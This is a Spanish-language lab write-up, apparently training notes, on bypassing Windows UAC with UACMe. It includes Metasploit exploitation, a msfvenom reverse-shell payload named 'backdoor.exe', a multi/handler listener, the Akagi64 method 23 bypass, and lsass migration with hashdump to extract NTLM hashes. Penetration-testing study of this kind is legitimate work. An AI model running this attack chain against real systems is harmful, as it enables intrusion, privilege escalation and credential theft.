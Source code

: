 UAC (User Account Control o Control de Cuentas de Usuario) es una característica de seguridad de windows utilizada para prevenir que cambios no autorizados ocurran en el sistema.
UAC se utiliza para asegurar que los cambios en el sistema requieran la aprobación del usuario administrador o la aprobación de la cuenta de usuario local que es parte del grupo administradores.
Un usuario no privilegiado intentando ejecutar un programa que requiera privilegios se vera privado de la ejecución debido al prompt que solicita las credenciales de usuario con los privilegios necesarios.
Algunos ataques pueden sobrepasar UAC con el objetivo de ejecutar código malicioso con permisos privilegiados.
![[Pasted image 20231104135601.png]]
Para poder sobrepasar UAC de forma exitosa necesitamos tener acceso a una cuenta de usuario que sea parte del grupo de administradores locales del sistema.
UAC tiene varios niveles de integridad desde los mas bajos hasta los mas altos, por defecto estos niveles están configurados un poco por debajo de los mas altos, lo que genera que algunos programas puedan ser ejecutados con privilegios elevados sin la necesidad de que el usuario realice la confirmación.
Existen múltiples herramientas y técnicas que pueden ser utilizadas para sobrepasar UAC pero  las mismas variaran en funcion del sistema operativo objetivo.

UACMe es una herramienta de fuente abierta que sirve para escalar privilegios y puede ser utilizada para sobrepasar UAC.
https://github.com/hfiref0x/UACME
El repositorio anterior contiene una lista documentada de métodos que se utilizan para sobrepasar UAC en las múltiples versiones de windows.
Permite al atacante ejecutar cargas útiles maliciosas en el windows objetivo con privilegios administrativos utilizando la herramienta propia de windows AutoElevate.
El repositorio contiene unos 60 exploits que pueden ser utilizados para abusar de UAC.

Ejercicio:
Nuestra tarea consiste en explotar la maquina utilizando los módulos apropiados de metasploit.
Objetivos:
- Obtener privilegios de administrador y obtener el hash NTLM del admin.

![[Pasted image 20231106173347.png]]


Solución:
Realizamos un ping a la maquina victima para asegurar que se encuentra up.
![[Pasted image 20231106173440.png]]
Al realizar el escaneo con nmap encontramos varios puertos abiertos
![[Pasted image 20231106173751.png]]
En el puerto 80 esta corriendo un FileServer que podría ser explotable así que realizamos un search dentro de metasploit.
![[Pasted image 20231106174050.png]]
Como podemos observar el segundo es un RCE así que intentamos utilizarlo.
![[Pasted image 20231106174204.png]]
Luego de ejecutarlo obtenemos una sesión de meterpreter.
![[Pasted image 20231106174240.png]]
Chequeamos nuestro usuario con getuid
![[Pasted image 20231106174350.png]]
Ahora queremos migrar el proceso a exlporer.exe ya que este suele tener privilegios mas elevados que nuestra sesión actual.
![[Pasted image 20231107171402.png]]
Observando la imagen vemos que en el primer sysinfo en el meterpreter tenemos un x86 y luego de utilizar los comandos ps -S explorer.exe y migrate PID de explorer.exe en un nuevo sysinfo vemos que nuestro meterpreter es x64. Eso ayuda a que nuestra sesión sea mucho mas estable y es una fase de la post-explotación
Al utilizar el  comando getsystem para intentar escalar privilegios vemos que nuestro acceso esta denegado
![[Pasted image 20231107171650.png]]
Asi que ahora mejoramos nuestro meterpreter a un shell para ver si nuestro usuario se encuentra dentro del grupo de administradores.
Ejecutamos el comando shell
![[Pasted image 20231107171753.png]]
Al utilizar el comando net localgroup administrators vemos los usuarios dentro del grupo administradores
![[Pasted image 20231107171852.png]]
En este caso nos encontramos como parte del grupo. Sabiendo que pertenecemos a un grupo de elevados privilegios ahora podemos sobrepasar nuestras limitaciones con UACMe, para lo que primeros debemos generar un payload con msfvenom de la siguiente forma:

1. msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO -f exe > 'backdoor.exe'
2. file ''backdoor.exe'
![[Pasted image 20231107172434.png]]
Ahora debemos subir en nuestra maquina victima tanto el akagi64(uacme) como el payload que acabamos de generar, para ello terminamos nuestra terminal de shell (meterpreter) con ctrl+c y nos dirigimos a la carpeta C:\\Users\\admin\\AppData\\Local\\Temp ya que en esta carpeta se puede subir archivos.
![[Pasted image 20231107172820.png]]
Ahora que los hemos subido vamos a abrir un nuevo metasploit y vamos a correr un multi handler para lo que ejecutaremos:
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST
set LPORT
exploit
![[Pasted image 20231107173122.png]]
Ahora volvemos al meterpreter utilizando de nuevo una shell ejecutamos el Akagi.64:
Akagi64.exe 23 C:\\Users\\admin\\AppData\\Local\\Temp\\backdoor.exe 
En esta ocasión utilizamos el método 23, para otros métodos verificar UACMe en git.
![[Pasted image 20231107173409.png]]
Esto debe provocar un meterpreter en nuestro multihandler
![[Pasted image 20231107173431.png]]
Ahora tenemos los mas altos privilegios, asi que primero buscamos el proceso lsass.exe que es el proceso Local Security Authority Subsystem Service encargado de:
- Autenticacion de usuarios
- Gestion de contraseñas
- Politicas de seguridad
- Control de accesos y autorizaciones
- Inicios de sesion de servicios
Una vez encontremos este proceso con el comando ps -S lsass.exe y migremos a el, podremos realizar un dump de los hashes del sistema.
![[Pasted image 20231107174028.png]]
Utilizamos el comando hashdump y obtenemos los hashes
![[Pasted image 20231107174309.png]]

![[Pasted image 20231107174341.png]]

